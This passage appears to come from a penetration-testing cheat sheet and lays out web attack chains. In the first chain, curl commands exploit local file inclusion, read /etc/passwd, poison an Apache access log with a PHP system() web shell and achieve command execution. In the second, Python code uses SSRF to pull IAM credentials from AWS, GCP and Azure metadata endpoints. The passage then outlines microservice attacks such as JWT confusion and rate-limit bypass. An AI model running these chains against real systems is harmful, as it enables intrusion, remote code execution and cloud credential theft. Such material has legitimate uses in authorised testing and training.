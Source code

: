 ### Chain 2: LFI → Log Poisoning → RCE
```bash
# Step 1: Confirm LFI
curl "http://target/index.php?page=../../../../etc/passwd"

# Step 2: Poison Apache access log
curl "http://target/" -A "<?php system(\$_GET['c']); ?>"

# Step 3: Include poisoned log
curl "http://target/index.php?page=../../../../var/log/apache2/access.log&c=id"
```

### Chain 3: SSRF → Internal Network → Cloud Metadata
```python
def cloud_metadata_chain():
    # Step 1: Find SSRF in PDF generator
    ssrf_endpoint = "/generate-pdf?url="

    # Step 2: Access AWS metadata
    metadata_urls = [
        "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
        "http://169.254.169.254/latest/user-data/",
        "http://metadata.google.internal/computeMetadata/v1/",
        "http://169.254.169.254/metadata/v1/"  # Azure
    ]

    # Step 3: Extract cloud credentials
    for url in metadata_urls:
        response = requests.get(f"{ssrf_endpoint}{url}")
        if "AccessKeyId" in response.text:
            return parse_aws_creds(response.text)
```

---

## 🐳 Microservices & Container Security

### API Gateway Testing
```python
class MicroservicesAttacks:
    def test_api_gateway(self, gateway_url):
        attacks = []

        # JWT propagation issues
        attacks.append({
            'name': 'JWT Confusion',
            'test': self.jwt_service_confusion,
            'description': 'Different JWT validation across services'
        })

        # Rate limiting bypass
        attacks.append({
            'name': 'Distributed Rate Limit Bypass',
            'test': self.distributed_rate_bypass,
            'description': 'Use multiple IPs to bypass per-IP limits'
        })

        # Service mesh authorization
        attacks.append({
            'name': 'Service Mesh Bypass',
            'test': self.istio_authorization_bypass,
            'description': 'Direct service access bypassing mesh'
        })
```